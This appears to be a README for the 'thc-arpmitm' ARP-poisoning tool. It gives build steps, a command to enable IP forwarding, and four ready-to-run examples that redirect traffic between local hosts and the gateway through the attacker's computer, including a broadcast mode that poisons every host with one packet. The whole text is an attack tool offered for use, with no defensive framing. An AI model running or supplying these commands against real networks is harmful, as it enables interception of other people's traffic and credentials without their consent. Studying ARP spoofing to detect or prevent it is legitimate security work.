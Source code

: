 # ARP Man-in-the-Middle

A tool to redirect hosts on a local network to your own computer (to intercept the traffic - aka ARP poisoning).  

Direct Download: [https://github.com/hackerschoice/thc-arpmitm/releases](https://github.com/hackerschoice/thc-arpmitm/releases)

**Install:**
```
$ ./configure --enable-static
$ make all
```

Make sure IP Forwarding is enabled:
```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

**Example 1:**
```
# ./thc-arpmitm -t 10.0.1.111.
```
The above redirects all traffic between 10.0.1.111 and the Internet through your computer.

**Example 2:**
```
arpmim -v 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111:44:44:55:55:66:66
```
A classic redirect. The above redirects all traffic between 10.0.1.254 and 10.0.1.111 through your computer. Where 10.0.1.254 is the default gateway then this makes it identical to Example 1. Example 1 finds out all the MAC's automatically.

**Example 3:**
```
# ./thc-arpmitm 00:02:13:37:73:50 255.255.255.255 10.0.1.254
```
The above will use 1 broadcast packet to tell *everyone* that 10.0.1.254 is you now.

**Example 4 the bold:**
```
# ./thc-arpmitm -A 00:02:13:37:73:50 255.255.255.255 10.0.0.1 10.0.0.2 10.0.0.3 10.0.0.4
```
The above will redirect all local traffic between the 4 hosts through your computer.

**Features:**
- Auto-Mode
- Broadcast Mode: Send 1 ARP-broadcast to ALL hosts and redirect ALL hosts with a single packet (be warned!)

**Supported Platforms:**
1. Linux
1. MacOS
1. FreeBSD

**Changelog:**  
2000 Internal team-teso release by xdr/skyper  
2001 Leaked to the public  
2020 Resurrection. Portability and added AUTO-MODE for beginners.  
2040 stay tuned!!!  

shoutz :+1: #oscar, ADM

